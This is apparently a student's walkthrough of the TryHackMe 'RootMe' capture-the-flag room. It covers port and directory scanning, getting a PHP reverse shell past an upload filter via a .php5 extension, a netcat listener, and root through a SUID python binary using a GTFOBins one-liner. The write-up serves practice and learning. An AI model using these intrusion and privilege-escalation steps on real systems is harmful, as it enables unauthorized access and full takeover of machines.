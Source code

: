 #### A easy level CTF. Link of the CTF is <br>https://tryhackme.com/room/rrootme
# Steps followed
1.
![Alt text](images/a.png "Title")
## Task 1:- Deploy the machine
2. Deployed the machine.<br>
## Task 2:-
3. Use <b><ins>nmap/zenmap</ins></b> for finding open ports.<br>
```
nmap -sV -T4 -O -F --version-light <ip-address>
```
4.
![Alt text](images/b.png "Title")
<br>
6.
![Alt text](images/c.png "Title")
### First Question:- Scan the machine, how many ports are open?
6. So as we can see from the screenshot that 2 ports 22 and 80 are open.
### Second Question:- What version of Apache is running?
7. Here, we can see the version of Apache that is runnung on port 80.
### Third Question:- What service is running on port 22?
8. we can see that on port 22 ssh is running.
### Forth Question:- Find directories on the web server using the GoBuster tool.
```
gobuster dir -u http://<ip-address> -w /usr/share/wordlists/dirb/common.txt
```
9.
![Alt text](images/d.png "Title")
<br>
10.
![Alt text](images/e.png "Title")
### Fifth Question:- What is the hidden directory?
11. We can see from the screenshot that there are useful directries like js,css but our answer is of 5 letter directory name :- <ins><b> /panel/ </b></ins>
12.
![Alt text](images/f.png "Title")
## Task 3:-
### user.txt?
13.![Alt text](images/g.png "Title")
We first tried to upload Shell.php into the site but was not able to then we tried to try different php extensions like .php2,.php3,.php4 etc.
<br>
Luckily .php5 worked and we were able to upload reverse shell into the site.<br>
But still we are not able to get a shell. For it we need to run that file which can be done by going to another directory /uploads/.<br>
We will run 
```
nc -lvnp 1234
```
on the terminal and run our file on the site.
<br>
Hence, We received the shell in the terminal.
Then, we will use the following command to find where <b><ins> user.txt </b></ins>
really is
```
find / -name "user.txt" 2>/dev/null
```
We will get the directory where it is and do cat
```
cat /var/bin/user.txt
```
and Hence we find our flag.
```
THM{***_***_*_*****}
```
## Task 4
### First Question :- Search for files with SUID permission, which file is weird?
To find this we will use the following terminal cmd
```
find / -user root -perm /4000 2>/dev/null
```
now we will see all directories which file seems to be wierd.
<br>
And we found that file
```
/usr/bin/python
```
### Second Question :- Find a form to escalate your privileges.
We search for getfobins :- https://gtfobins.github.io/#+suid
<br>
we search for the python privilege escatalation and we found the following:-
```
sudo install -m =xs $(which python)
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
and by applying it we get to the root user.
### Third Question :- root.txt
We implement the cmd
```
cat /root/root.txt
```
and we found our root flag
```
THM{*********_**********}
```
